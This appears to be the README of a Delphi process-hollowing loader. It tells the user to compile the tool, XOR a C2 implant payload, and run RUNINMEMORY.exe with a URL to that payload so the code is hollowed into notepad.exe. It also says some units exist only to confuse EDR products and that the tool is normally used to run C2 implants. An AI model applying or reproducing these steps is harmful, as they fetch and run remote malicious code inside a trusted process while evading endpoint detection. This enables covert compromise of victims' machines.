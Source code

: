 # delphiprocesshollowing
DelphiProcessHollowing

compile with Embarcadero Community 12

Some Units are added only to confuse EDRs

1. compile it (64bit!)
2. create the BINARY x64 implant with your C2
3. XOR you .BIN payload with the "a" char (or modify pascal source to change it!)
4. run RUNINMEMORY.exe url_to_XORED_binary c:\windows\system32\notepad.exe

normally used to run C2 implants
